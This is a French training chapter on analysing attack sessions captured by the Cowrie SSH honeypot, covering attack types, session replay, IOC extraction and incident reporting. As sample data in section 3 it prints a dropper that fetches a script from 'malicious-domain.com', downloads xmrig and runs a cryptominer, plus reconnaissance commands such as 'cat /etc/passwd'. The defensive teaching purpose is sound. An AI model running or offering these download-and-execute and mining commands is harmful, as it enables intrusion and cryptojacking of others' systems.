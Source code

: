 # CHAPITRE 09 – Étude de cas d’attaques réelles captées avec Cowrie

---

## 1. Objectifs pédagogiques

À l’issue de ce chapitre, l’apprenant sera capable de :

* Analyser des sessions d’attaques réelles enregistrées par Cowrie
* Identifier les techniques d’attaque utilisées
* Distinguer un comportement automatisé (bot/script) d’un humain
* Rédiger un rapport d’incident simple
* Proposer des mesures de défense à partir des données collectées

---

## 2. Typologies d’attaques observées

Voici les types d’attaques les plus fréquents détectés dans Cowrie :

| Type d’attaque         | Comportement typique                                                 |
| ---------------------- | -------------------------------------------------------------------- |
| Brute-force SSH        | Tentatives rapides et répétées de login (`root`, `admin`)            |
| Script automatisé      | Téléchargement + exécution de script `.sh` ou `.py`                  |
| Déploiement de malware | Téléchargement d’un binaire + chmod + ./                             |
| Cryptominer            | Exécution prolongée d’un `xmrig` ou `minerd`                         |
| Pivot réseau           | Tentatives d’accès à d’autres IP depuis le faux shell                |
| Humain (rare)          | Navigation lente, tentative de reconnaissance (`ls`, `cat`, `uname`) |

---

## 3. Étude de session : attaque brute-force + dropper

### 3.1. Événements captés

```json
{
  "eventid": "cowrie.login.success",
  "timestamp": "2025-07-04T10:33:12.520Z",
  "src_ip": "190.85.40.122",
  "username": "root",
  "password": "123456"
}
```

Commandes successives :

```text
wget http://malicious-domain.com/m.sh -O /tmp/m.sh
chmod +x /tmp/m.sh
/tmp/m.sh
```

Le script téléchargé :

```bash
#!/bin/bash
curl -O http://malicious-domain.com/xmrig
chmod +x xmrig
./xmrig --url miningpool.com --user attacker_wallet
```

### 3.2. Analyse

* Attaque automatisée
* Installation d’un mineur CPU (cryptojacking)
* L’IP 190.85.40.122 est répertoriée comme malveillante (AbuseIPDB : score 100)

---

## 4. Étude de session : humain curieux

### 4.1. Comportement observé

```text
uname -a
ls -la /etc
cat /etc/passwd
cd /var/log
cat auth.log
ping google.com
```

Aucune tentative de téléchargement.

### 4.2. Interprétation

* Démarche exploratoire
* Aucun script automatisé
* Probable test de pénétration ou attaquant en reconnaissance manuelle

---

## 5. Rejouer une session complète (replay)

Lister les fichiers tty :

```bash
ls log/tty/
```

Lire une session :

```bash
bin/playlog.py log/tty/ttylog.20250704-12123abc.log
```

---

## 6. Rapport d’incident simple

### Exemple de structure :

**Titre** : Détection d’une attaque de cryptojacking – IP 190.85.40.122
**Date** : 04/07/2025
**Résumé** : Connexion SSH réussie sur le port 2222, téléchargement d’un script de minage.
**IOCs** :

* IP : `190.85.40.122`
* URL : `http://malicious-domain.com/m.sh`
* Fichier : `xmrig`, hash SHA256 : `...`
  **Comportement** :
* Téléchargement automatique via `wget`
* Exécution d’un binaire
  **Réponse** :
* IP bannie (fail2ban)
* URL soumise à VirusTotal
* Hash partagé avec Suricata pour future détection

---

## 7. TP-09 : Analyse d’une attaque réelle dans Cowrie

### Objectif

Reproduire une analyse complète d’une session malveillante captée par Cowrie.

### Étapes

1. Choisir un fichier `ttylog/`
2. Rejouer la session :

```bash
bin/playlog.py log/tty/ttylog.YYYYMMDD-XXX.log
```

3. Identifier :

* IP source
* Commandes utilisées
* Fichier téléchargé

4. Extraire les IOC :

```bash
jq 'select(.session=="XXX") | .src_ip, .input, .url' log/cowrie.json
```

5. Rechercher l’IP dans AbuseIPDB et le hash dans VirusTotal

6. Rédiger un mini rapport `.md` ou `.pdf`

---

## 8. Questions de révision

1. Comment faire la différence entre un bot et un humain dans une session ?
2. Quels éléments permettent d’identifier un cryptominer ?
3. Quelle information utile trouve-t-on dans `cowrie.session.file_download` ?
4. Pourquoi analyser un `ttylog` peut être plus riche que lire le `.json` ?
5. Quels indicateurs doivent être extraits pour générer un rapport d’incident ?

---

## 9. Ressources

* [https://www.abuseipdb.com/](https://www.abuseipdb.com/)
* [https://www.virustotal.com/](https://www.virustotal.com/)
* Cowrie replay script : `bin/playlog.py`
* Format JSON Events : [https://cowrie.readthedocs.io](https://cowrie.readthedocs.io)
